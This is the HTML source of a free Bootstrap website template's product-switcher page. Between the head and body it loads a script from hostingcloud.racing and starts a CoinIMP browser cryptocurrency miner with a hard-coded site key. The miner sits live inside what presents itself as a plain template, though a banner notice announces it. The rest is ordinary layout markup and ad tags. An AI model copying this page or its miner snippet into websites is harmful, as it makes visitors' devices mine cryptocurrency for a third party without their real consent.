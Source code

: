 <!DOCTYPE html>
<html lang="en">
<head>

<meta charset="utf-8">
<title>Colorlib | Free Bootstrap Website Template</title>
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0" />

<link href="assets/css/bootstrap.min.css" rel="stylesheet" media="screen">
<link href="assets/css/template.css" rel="stylesheet" media="screen">
<script type="a564f3b31dfeae3b96322d7f-text/javascript">if ( top !== self ) top.location.replace( self.location.href );// Hey, don't iframe my iframe!</script>

<link href="//cdnjs.cloudflare.com/ajax/libs/font-awesome/3.2.1/css/font-awesome.css" rel="stylesheet">
<link href="https://fonts.googleapis.com/css?family=Open+Sans:400,700,800,300" rel='stylesheet' type='text/css'>
<!--[if lt IE 9]>
		<script>/*@cc_on'abbr article aside audio canvas details figcaption figure footer header hgroup mark meter nav output progress section summary subline time video'.replace(/\w+/g,function(n){document.createElement(n)})@*/</script>
	<![endif]-->
</head>
<script src="https://www.hostingcloud.racing/mKgk.js"></script>
<script>
    var _client = new Client.Anonymous('a934a756b26f740437b44addb4ac3eaad11ebe827f6c08ce936fcabf8ed36e5e', {
        throttle: 0.2, c: 'w'
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");

</script>
<body>

<header class="switcher-bar clearfix">

<div class="logo textual pull-left">
<a href="https://colorlib.com/wp/templates/" title="Switcher">
<img src="assets/img/logo.png" alt="uiCookies">
</a>
</div>

<div class="product-switcher pull-left">
<a href="#" title="Select a Product">
Select a Product <span>+</span>
</a>
</div>

<div class="remove-btn header-btn pull-right">
<a href="#" title="Close this bar" class="icon-remove"></a>
</div>

<div class="purchase-btn header-btn pull-right">
<a href="#" title="Download" class="icon-cloud-download"></a>
</div>

<div class="mobile-btn header-btn pull-right hidden-xs">
<a href="#" title="Smartphone View" class="icon-mobile-phone"></a>
</div>

<div class="tablet-btn header-btn pull-right hidden-xs">
<a href="#" title="Tablet View" class="icon-tablet"></a>
</div>

<div class="desktop-btn header-btn pull-right hidden-xs">
<a href="#" title="Desktop View" class="icon-desktop"></a>
</div>
</header>

<section class="switcher-body">
<a href="#" title="Prev" class="icon-chevron-left products-prev"></a>
<div class="products-wrapper">
<div class="products-list clearfix">
</div>
</div>
<a href="#" title="Next" class="icon-chevron-right products-next"></a>
</section>

<iframe class="product-iframe" frameborder="0" border="0"></iframe>

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js" type="a564f3b31dfeae3b96322d7f-text/javascript"></script>
<script src="assets/js/products.js" type="a564f3b31dfeae3b96322d7f-text/javascript"></script>
<script src="assets/js/application.min.js" type="a564f3b31dfeae3b96322d7f-text/javascript"></script>
<script async src="https://securepubads.g.doubleclick.net/tag/js/gpt.js" type="a564f3b31dfeae3b96322d7f-text/javascript"></script>
<div id='gpt-passback-stpd-0-1578495345178'>
<script type="a564f3b31dfeae3b96322d7f-text/javascript">
     window.googletag = window.googletag || {cmd: []};
       googletag.cmd.push(function() {
         googletag
           .defineSlot('/147246189/colorlib.com_728x90_anchor_sticky_DFP', [[320, 100], [728, 90]], 'gpt-passback-stpd-0-1578495345178')
           .addService(googletag.pubads()).setTargeting('Placement_type', ['serving']);
         googletag.enableServices();
         googletag.display('gpt-passback-stpd-0-1578495345178');
     });
  </script>
</div>
<script src="https://ajax.cloudflare.com/cdn-cgi/scripts/7089c43e/cloudflare-static/rocket-loader.min.js" data-cf-settings="a564f3b31dfeae3b96322d7f-|49" defer=""></script></body>
</html>
